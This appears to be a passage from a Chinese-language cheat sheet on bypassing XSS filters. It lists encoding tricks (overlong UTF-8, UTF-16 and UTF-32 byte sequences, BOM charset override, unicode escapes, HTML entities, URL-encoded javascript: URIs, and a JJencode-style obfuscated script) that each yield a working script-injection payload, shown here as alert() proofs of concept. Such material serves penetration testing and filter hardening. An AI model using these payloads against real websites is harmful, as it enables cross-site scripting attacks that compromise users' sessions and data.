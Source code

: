 

### 使用UTF-8绕过

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

### 使用UTF-16be绕过

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

### 使用UTF-32绕过

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### 使用 BOM绕过

Byte Order Mark (页面必须以 BOM 字符开头)
BOM字符允许覆盖页面的字符集

```js
UTF-16 编码的 BOM 字符：
大字节序 : 0xFE 0xFF
小字节序 : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

UTF-32 编码的 BOM 字符：
大字节序 : 0x00 0x00 0xFE 0xFF
小字节序 : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

### 使用各种编码绕过

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```